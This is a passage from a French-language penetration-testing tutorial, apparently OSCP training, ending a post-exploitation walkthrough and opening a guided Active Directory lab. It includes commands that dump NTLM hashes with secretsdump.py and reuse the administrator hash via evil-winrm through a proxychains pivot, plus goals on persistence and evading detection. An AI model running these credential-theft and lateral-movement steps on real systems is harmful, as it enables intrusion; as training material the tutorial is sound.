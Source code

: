 
Sur notre machine d'attaque, nous utilisons secretsdump.py pour extraire les hachages :

```bash
secretsdump.py -sam sam.save -system system.save LOCAL
# Résultat : hachages NTLM, dont celui de l'administrateur local
```

Nous utilisons ensuite le hachage de l'administrateur pour établir une session avec privilèges élevés :

```bash
proxychains evil-winrm -i 10.0.0.50 -u Administrator -H 'a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6'
# Résultat : session PowerShell avec privilèges administrateur
```

### Résultat final

En moins d'une heure, nous avons :
1. Élevé nos privilèges sur le serveur Linux initial (www-data → root)
2. Établi un tunnel pour pivoter vers le réseau interne
3. Découvert et accédé à un serveur Windows dans le second sous-réseau
4. Élevé nos privilèges sur ce serveur jusqu'à l'administrateur local

Cette progression rapide démontre l'efficacité d'une approche méthodique en post-exploitation, même sous contrainte temporelle. Les techniques utilisées sont relativement discrètes et exploitent des configurations courantes dans les environnements réels.

Le scénario illustre également l'importance de la chaîne complète : reconnaissance → élévation → extraction de credentials → pivoting → mouvement latéral → nouvelle élévation. Chaque étape s'appuie sur les informations et accès obtenus lors des précédentes, créant un effet d'amplification de la compromission initiale.
# Mini-lab guidé : Post-exploitation dans un environnement AD avec pivot Linux

Ce mini-lab guidé vous permettra de mettre en pratique les techniques de post-exploitation dans un environnement réaliste combinant Active Directory Windows Server 2019 et un serveur pivot Linux Ubuntu. Conçu pour être réalisable en 90 minutes, il couvre l'ensemble des compétences essentielles pour l'OSCP : énumération, dump de credentials, élévation de privilèges, persistance et pivoting.

## Objectifs pédagogiques

À l'issue de ce lab, vous serez capable de :
- Exploiter un accès initial pour énumérer efficacement un environnement Windows
- Extraire des credentials et les utiliser pour le mouvement latéral
- Établir des mécanismes de persistance discrets sur Windows et Linux
- Configurer un pivot à travers un serveur Linux pour accéder à des segments réseau isolés
- Appliquer les principes OPSEC pour minimiser la détection

## Prérequis et configuration du lab

### Architecture du lab
